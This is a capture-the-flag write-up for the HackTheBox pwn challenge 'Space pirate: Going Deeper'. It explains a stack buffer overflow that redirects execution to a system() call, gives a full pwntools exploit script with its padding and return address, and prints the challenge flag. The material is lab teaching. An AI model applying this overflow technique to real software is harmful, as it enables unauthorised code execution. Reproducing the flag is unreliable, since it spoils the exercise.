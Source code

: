 # Space pirate: Going Deeper
> Write-up author: jon-brandy
## DESCRIPTION:
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. 
The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. 
Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. 
Can you disable the mechanisms and take control of the Admin Panel?

## HINT:
- NONE
## STEPS:
1. Unzipping the zip file resulting to a 64 bit binary file.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7891a42f-5843-4d71-ac5b-7667676e6464)


2. Let's check the binary's protections.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/0e695117-aab9-468e-919e-be825df29cbc)


3. Let's decompile the binary.
4. At the `main()` function, the `admin_panel()` function shall be our interest because it's where our input accepted.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/b5c990b1-807d-401c-9ff1-d311b50d39cd)


5. We can get the flag if our previous parameters are the same as these:

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/11312e9c-cff6-4c7a-9645-074ee185edf4)


6. Anyway there's a `system()` call that auto cat the flag.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/94239da8-ad83-443d-885c-80c0740dfeed)


![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/4471baf8-7d30-4303-8565-84929f5592f7)


7. Hence the pwn concept is to control the RIP by overflowing the buffer then add the `lea` offset.

```
padding + lea_offset
```

8. First we need to find the offset for RIP.
9. Let's use peda.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/3d4087da-394d-4189-b8ee-b356d7ae7a3d)


10. Sadly it does not show us the bytes, hence we need to find it manually.
11. But the problem is, since we want to use the `system()` approach, hence we can't determine if the padding is correct or not, because it shall gave us the "EOF" statement.
12. Then let's assume to use 57 right now.
13. Next, grab the `lea` offset

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f93f106f-32b7-4525-85b8-a9ccf7d4c8db)


14. Let's craft the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './sp_going_deeper'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 57 

lea_offset = 0x0000000000400b12
info('lea offset --> %#0x', lea_offset)

p = flat([
    asm('nop') * padding,
    lea_offset
])

sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7af41ac8-6d87-4a6a-8d8b-170c9780f195)


15. Let's lowered it to 56.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/84427b43-f406-43bc-bcc1-ba5fb0bd3f1a)


16. Got the flag!
17. Let's test it remotely then.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7c483531-53c3-43c5-8183-6b2b1a574ac5)


18. Got the flag!

## FLAG

```
HTB{d1g_1n51d3..u_Cry_cry_cry}
```
